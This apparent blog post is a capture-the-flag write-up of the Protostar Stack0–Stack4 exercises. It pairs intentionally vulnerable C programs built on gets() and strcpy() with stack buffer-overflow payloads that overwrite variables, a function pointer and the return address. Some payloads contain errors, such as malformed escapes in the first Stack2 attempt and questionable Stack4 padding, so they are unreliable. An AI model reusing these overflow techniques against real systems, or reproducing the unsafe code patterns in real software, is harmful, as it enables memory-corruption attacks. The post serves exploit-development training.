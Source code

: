 ```yaml
---
layout: blog
title: "[writeup] Exploit Exercise Protostar"
date: 2020-05-27T18:09:48.220Z
tags:
  - ctf
  - writeup
---
```


Protostar Challange of https://exploit-exercises.lains.space/

<!--more-->

# Stack

## `Stack0`

### source:

```c
// stack0.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### how to solve:

payload:

```python
python -c "print 'A'*65"  | ./stack0
```

## `Stack1`

### source:

```c
// stack1.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### how to solve

because the hint tells that _protostar_ is little endian, so we have to match the payload:

```bash
./stack1 $(python -c "import struct; print('A'*64 + '\x64\x63\x62\x61' )")
```

## `Stack2`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### how to solve:

```shell
# set variable
GREENIE=`python -c "import struct; print('A'*68 + '\x0a\x0d\x0a\0d\0a')"`

# export it to the os env
export GREENIE

# check if it's already loaded
echo $GREENIE

# run the program
./stack2
```

one-liner solution:

```shell
GREENIE=`python -c "import struct; print('A'*64 + '\x0a\x0d\x0a\x0d')"` && export GREENIE && ./stack2
```

## `Stack3`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### how to solve:

```shell
# get win function address

(gdb) info addr win
Symbol "win" is a function at address 0x8048424.

# use win() address on the payload
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3

# output:
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## `Stack4`

### source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### how to solve

- override main() return method address
- see win() method by using command `objdump -t /opt/protostar/bin/stack4 | grep win`
- craft payload and try to override return value

payload:

```python
#hitstack4.py
import struct

payload = ""

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

for s in ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'j', 'k', 'l', 'm', 'n']:
        payload += s.lower()*4

ebp = 'EEEE'

eip = struct.pack("I", 0x080483f4)

print payload+ebp+eip
```

```bash
# run the payload
python hitstack4.py | /opt/protostar/bin/stack4
```
